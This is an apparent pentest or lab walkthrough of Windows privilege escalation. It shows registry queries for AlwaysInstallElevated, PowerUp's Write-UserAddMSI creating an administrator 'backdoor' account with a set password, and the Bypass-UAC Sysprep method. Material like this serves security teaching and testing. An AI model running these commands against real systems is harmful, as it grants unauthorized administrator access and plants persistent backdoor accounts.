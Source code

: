 ```



                --Escalating Privileges
        
        Once access to the command prompt is established, it's possible to search for vulnerabilities in a system more easily. For instance, tools like Winpeas and PowerUp can also be employed to identify potential security issues and vulnerabilities within the operating system.


        Example

        Using PowerUp.ps1, we find that Always Install Elevated key is present and set.

        We can also validate this using the Command Prompt by querying the corresponding registry keys:

        C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

        HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

        C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

        HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

        Once more, we can make use of PowerUp, using it's Write-UserAddMSI function. This function facilitates the creation of an .msi file directly on the desktop.

        PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
        PS C:\Users\pmorgan\Desktop> Write-UserAddMSI

        Now we can execute UserAdd.msi and create a new user backdoor:T3st@123 under Administrators group. Note that giving it a password that doesn’t meet the password complexity criteria will throw an error.

        Back in CMD execute runas to start command prompt as the newly created backdoor user.




                --Bypassing UAC

        
        Even though the newly established user backdoor is a member of Administrators group, accessing the C:\users\Administrator directory remains unfeasible due to the presence of User Account Control (UAC). UAC is a security mechanism implemented in Windows to protect the operating system from unauthorized changes. With UAC, each application that requires the administrator access token must prompt the end user for consent.

        Numerous UAC bypass scripts are available, designed to assist in circumventing the active User Account Control (UAC) mechanism. These scripts offer methods to navigate past UAC restrictions and gain elevated privileges.

        (  https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC  )

        PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
        PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep

```